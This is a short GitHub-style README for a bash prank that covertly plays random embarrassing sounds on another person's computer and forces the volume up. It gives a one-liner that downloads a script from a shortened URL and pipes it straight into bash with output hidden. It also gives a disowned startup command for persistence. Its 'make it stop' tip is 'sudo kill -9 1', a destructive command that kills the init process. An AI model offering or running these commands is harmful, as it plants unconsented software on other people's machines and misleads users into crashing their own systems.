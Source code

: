 Bash Prank
-----------
Imagine you are in class.
Someone - we wont say who - opens up their terminal.
Then they close it.
Then after a random time interval - say anywhere from 1 to 300 seconds
a random sound plays.
Oh, it can be an embarrassing sound.
Did you say they had headphones on?
Didn't work very well for them now did it?
Did you say they tried muting it?
Ahh - you mean it unmuted and went to full volume a second later.

##ONE LINER##
```bash
curl -L http://git.to/pal | bash -s > /dev/null 2>&1
```

## Implementation ideas StartUP Command##
https://help.ubuntu.com/community/AddingProgramToSessionStartup
```bash
. ~/.config/al/al.sh & disown
```

## Removal Instructions ##
Really? You want to get rid of this amazing piece of code that inhances your life more than sliced bread?

## Make it stop ##
Hint: It starts with m and it plays things. The source code might be a good place to look for things to kill. I recommend:
```bash
    sudo kill -9 1
```